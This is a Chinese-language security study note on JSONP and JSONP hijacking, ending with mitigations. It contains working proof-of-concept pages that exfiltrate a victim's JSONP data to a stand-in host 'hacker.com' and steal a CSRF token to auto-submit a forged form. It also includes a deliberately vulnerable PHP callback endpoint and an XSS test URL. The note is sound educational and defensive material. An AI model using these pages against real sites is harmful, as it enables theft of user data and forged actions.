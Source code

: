 ```yaml
---
aliases: []
tags: ['Security','date/2022-11','year/2022','month/11']
date: 2022-11-30-星期三 19:56:15
update: 2022-12-01-星期四 14:36:58
---
```


## JSONP介绍

说起[[跨域]]请求资源的方法，最常见的方法是JSONP/CORS。下面以具体的例子介绍一下[[跨域#JSONP|JSONP]]的工作原理。

JSONP全称是JSON with Padding ，是基于JSON格式的为解决跨域请求资源而产生的解决方案。**他实现的基本原理是利用了HTML里script元素标签没有跨域限制**

JSONP原理就是动态插入带有跨域url的script标签，然后调用回调函数，把我们需要的json数据作为参数传入，通过一些逻辑把数据显示在页面上。

比如通过script访问`http://www.test.com/index.html?jsonpcallback=callback`, 执行完script后，会调用callback函数，参数就是获取到的数据。

JSONP劫持，实质上算是一种读类型的CSRF，在恶意的网页中构造恶意的JS代码，当合法用户点击该网页，由于目标站点存在JSONP劫持漏洞的接口，因此会将用户的该接口对应的信息劫持，并将其发送到攻击者的服务器。

## JSONP劫持

对于JSONP传输数据，正常的业务是用户在B域名下请求A域名下的数据，然后进行进一步操作。

但是对A域名的请求一般都需要身份验证，hacker怎么去获取到这些信息呢，我们可以自己构造一个页面，然后诱惑用户去点击，在这个页面里，我们去请求A域名资源，然后回调函数将请求到的资源发回到hacker服务器上。

没错JSONP劫持类似于[[前端安全：CSRF|CSRF]]漏洞，步骤大概如下图所示：

![[1666134937.png]]

利用代码如下所示：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
<script type="text/javascript">
function hehehe(obj){
    var myForm = document.createElement("form");
    myForm.action="http://hacker.com/redirect.php";
    myForm.method = "GET";  
    for ( var k in obj) {  
        var myInput = document.createElement("input");  
        myInput.setAttribute("name", k);  
        myInput.setAttribute("value", obj[k]);  
        myForm.appendChild(myInput);  
    }  
    document.body.appendChild(myForm);  
    myForm.submit();  
    document.body.removeChild(myForm);
}
</script>
</head>
<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=hehehe"></script>
</body>
</html>
```

诱惑用户访问此html，会以用户的身份访问`http://localhost/callback.php?callback=hehehe`,拿到敏感数据，然后执行hehehe函数，将数据发送给`http://hacker.com/redirect.php`。抓包可以拦截到如下请求包：

```http
GET /redirect.php?customername1=user1&password=12345678 HTTP/1.1
Host: hacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.133.136.120/test.html
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

hacker只需要在redirect.php里，将数据保存下来，然后重定向到baidu.com，堪称一次完美的JSONP劫持。

## 利用JSONP绕过token防护进行csrf攻击

具体的实例可以看看参考文章2，3。

通过上面例子，我们知道JSONP可以获取敏感的数据，在某些情况下，还可以利用JSONP劫持绕过token限制完成csrf攻击。

假设有个场景是这样：服务端判断接收到的请求包，如果含有callback参数就返回JSONP格式的数据，否则返回正常页面。代码如下：test.php

```php
<!-- callback.php -->

<?php
    header('Content-type: application/json');
    //json数据
    $json_data = '{"customername1":"user1","password":"12345678"}';
    if(isset($_GET["callback"])){
        $callback = $_GET["callback"];
        //如果含有callback参数，输出jsonp格式的数据
        echo $callback . "(" . $json_data . ")";
    }else{
        echo $json_data;
    }
?>
```

对于场景，如果存在JSONP劫持劫持，我们就可以获取到页面中的内容，提取出csrf\_token，然后提交表单，造成csrf漏洞。示例利用代码如下(来自参考文章2)：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
</head>
<body>
<div id="test"></div>
<script type="text/javascript">
function test(obj){
    // 获取对象中的属性值
    var content = obj['html']
    // 正则匹配出参数值
    var token=content.match('token = "(.*?)"')[1];
    // 添加表单节点
    var parent=document.getElementById("test");
    var child=document.createElement("form");
    child.method="POST";
    child.action="http://vuln.com/del.html";
    child.id="test1"
    parent.appendChild(child);
    var parent_1=document.getElementById("test1");
    var child_1=document.createElement("input");
    child_1.type="hidden";child_1.name="token";child_1.value=token;
    var child_2=document.createElement("input");
    child_2.type="submit";
    parent_1.appendChild(child_1);
    parent_1.appendChild(child_2);
}
</script>
<script type="text/javascript" src="http://vuln.com/caozuo.html?htmlcallback=test"></script>
</body>
</html>
```

htmlcallback返回一个对象obj，以该对象作为参数传入test函数，操作对象中属性名为html的值，正则匹配出token，再加入表单，自动提交表单完成操作，用户点击该攻击页面即收到csrf攻击。

## JSONP劫持挖掘与防御

对于漏洞挖掘，我们首先需要尽可能的找到所有的接口，尤其是返回数据格式是JSONP的接口。(可以在数据包中检索关键词callback json jsonp email等，也可以加上callback参数，观察返回值是否变化)。

找到接口之后，还需要返回值包含敏感信息，并且能被不同的域的页面去请求获取(也就是是否存在refer限制,实际上，如果接口存在refer的限制，也是有可能被绕过的，计划以后的文章中再说)

对于JSONP劫持的防御，其实类似于csrf的防御。以下来源于参考文章4:

- 限制来源refer
- 按照JSON格式标准输出（设置Content-Type : application/json; charset=utf-8），预防`http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>`形式的xss
- 过滤callback函数名以及JSON数据输出，预防xss

## 参考

- [JSONP 劫持原理与挖掘方法](https://www.k0rz3n.com/2019/03/07/JSONP%20%E5%8A%AB%E6%8C%81%E5%8E%9F%E7%90%86%E4%B8%8E%E6%8C%96%E6%8E%98%E6%96%B9%E6%B3%95/)
- [JSONP绕过CSRF防护token](https://xz.aliyun.com/t/5143)
- [分享一个jsonp劫持造成的新浪某社区CSRF蠕虫](https://www.leavesongs.com/HTML/sina-jsonp-hijacking-csrf-worm.html#)
- [JSONP 安全攻防技术](https://blog.knownsec.com/2015/03/jsonp_security_technic/)
